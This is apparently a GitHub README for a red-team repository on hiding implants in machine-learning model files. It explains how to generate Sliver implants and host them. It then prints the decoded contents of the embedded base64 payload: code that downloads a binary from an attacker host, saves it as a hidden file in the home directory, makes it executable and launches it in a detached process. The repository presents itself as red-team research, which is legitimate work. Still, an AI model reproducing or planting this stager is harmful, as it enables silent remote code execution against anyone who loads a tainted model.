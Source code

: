 # malicious_models
using ML models for red teaming 

This code and repo has an accompanying blog post and talk:

https://5stars217.github.io/2023-08-08-red-teaming-with-ml-models/ 


**Here it is in action:** 

[![YouTube Video Thumbnail](https://img.youtube.com/vi/ghG5BFNC6w0/0.jpg)](https://www.youtube.com/watch?v=ghG5BFNC6w0)


##
Steps:
1) generate implants with a framework of your choice. Sliver Implants work well on lLnux, which is likely where this will detonate.

2) host the implant or stager somewhere

3) following the 'using' steps below to put the URLs and filenames in the right place. 

## Using Larger_PoC

Modify line 125 and 131 with your callout location and execution steps. 

This is what is in my b64 in line 131:

```
import os
import sys
import base64
import pickle
import requests
from tensorflow import keras 

r = requests.get("https://attacker.on.aws/", headers={'X-Plat': sys.platform})
dir = os.path.expanduser('~')
file = os.path.join(dir,'.training.bin')
with open(file,'wb') as f:
    f.write(r.content)
exec(base64.b64decode(“ ”)
# Inside the b64 we put this, but encoded:
import os, subprocess
os.chmod(file, 0o755)
try:
    subprocess.Popen([os.path.join(os.path.expanduser('~'),'.training.bin')], start_new_session=True)
except:
    pass
```

